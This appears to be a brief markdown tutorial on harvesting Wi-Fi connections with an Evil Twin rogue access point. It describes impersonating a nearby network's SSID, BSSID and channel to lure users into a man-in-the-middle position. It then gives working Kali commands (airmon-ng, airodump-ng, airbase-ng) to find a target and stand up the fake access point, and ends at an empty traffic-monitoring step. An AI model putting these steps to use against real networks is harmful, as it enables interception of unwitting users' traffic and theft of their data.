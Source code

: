 # Harvesting connections with an Evil Twin.

> Evil Twin is a rogue access point which has been activated in order to attract unwary users to connect and then acts as a MITM monitoring their traffic.
> It does this by posing as a legitimate AP. A good Evil Twin will look in every aspect the same as its target (SSID, BSSID and channel) but with a stronger signal in its local zone.
> An Evil Twin may just wait for new devices to join the network, or it may forcibly de-authenticate clients from the legitimate AP t o force a reconnect, this time to itself.

**1.** Set up _airbase-ng_, a simple Kali tool for turning a wireless card into an AP. Firt, with monitor mode.

```bash
airmon-ng start wlan0
```

**2.** See what APs are close.

```bash
airodump-ng wlan0mon
```

**3.** Evil Twin it and wait for users to authenticate.

```bash
airbase-ng -a $BSSID --essid $SSID -c $CHANNELNUM wlan0mon
```

**4.** Monitor the traffic.
